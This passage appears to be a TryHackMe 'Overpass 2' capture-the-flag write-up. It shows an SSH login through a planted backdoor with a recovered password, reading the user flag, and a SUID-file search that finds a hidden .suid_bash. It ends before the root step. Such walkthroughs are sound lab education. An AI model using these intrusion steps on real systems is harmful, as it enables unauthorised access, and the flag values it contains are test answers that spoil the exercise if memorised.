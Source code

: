 > H4ck3d by CooctusClan


### What's the user flag?

```bash
┌──(kali㉿kali)-[~/thm/Overpass-2-Hacked]
└─$ sshpass -p november16 ssh -o "StrictHostKeyChecking no" -p 2222 james@10.10.153.34
Unable to negotiate with 10.10.153.34 port 2222: no matching host key type found. Their offer: ssh-rsa
```

- A Google Search solved the issue

```bash
┌──(kali㉿kali)-[~/thm/Overpass-2-Hacked]
└─$ sshpass -p november16 ssh -o "StrictHostKeyChecking no" -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa -p 2222 james@10.10.153.34
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
james@overpass-production:/home/james/ssh-backdoor$ cat ../user.txt
thm{d119b4fa8c497ddb0525f7ad200e6567}
james@overpass-production:/home/james/ssh-backdoor$
```

> thm{d119b4fa8c497ddb0525f7ad200e6567}


### What's the root flag?

```bash
james@overpass-production:/home/james$ find / -type f -perm -4000 -ls 2>/dev/null
      499     44 -rwsr-xr-x   1 root     root        44528 Mar 22  2019 /usr/bin/chsh
      844    148 -rwsr-xr-x   1 root     root       149080 Jan 31  2020 /usr/bin/sudo
      497     76 -rwsr-xr-x   1 root     root        76496 Mar 22  2019 /usr/bin/chfn
      739     24 -rwsr-xr-x   1 root     root        22520 Mar 27  2019 /usr/bin/pkexec
      880     20 -rwsr-xr-x   1 root     root        18448 Jun 28  2019 /usr/bin/traceroute6.iputils
      703     40 -rwsr-xr-x   1 root     root        37136 Mar 22  2019 /usr/bin/newuidmap
      701     40 -rwsr-xr-x   1 root     root        37136 Mar 22  2019 /usr/bin/newgidmap
      719     60 -rwsr-xr-x   1 root     root        59640 Mar 22  2019 /usr/bin/passwd
      592     76 -rwsr-xr-x   1 root     root        75824 Mar 22  2019 /usr/bin/gpasswd
      446     52 -rwsr-sr-x   1 daemon   daemon      51464 Feb 20  2018 /usr/bin/at
      702     40 -rwsr-xr-x   1 root     root        40344 Mar 22  2019 /usr/bin/newgrp
     1254    428 -rwsr-xr-x   1 root     root       436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
     7178     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1258     16 -rwsr-xr-x   1 root     root          14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
     7392    100 -rwsr-xr-x   1 root     root         100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
     1072     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   262241     44 -rwsr-xr-x   1 root     root          43088 Jan  8  2020 /bin/mount
   262214     32 -rwsr-xr-x   1 root     root          30800 Aug 11  2016 /bin/fusermount
   262281     44 -rwsr-xr-x   1 root     root          44664 Mar 22  2019 /bin/su
   262265     64 -rwsr-xr-x   1 root     root          64424 Jun 28  2019 /bin/ping
   262299     28 -rwsr-xr-x   1 root     root          26696 Jan  8  2020 /bin/umount
   268869   1088 -rwsr-sr-x   1 root     root        1113504 Jul 22  2020 /home/james/.suid_bash
```
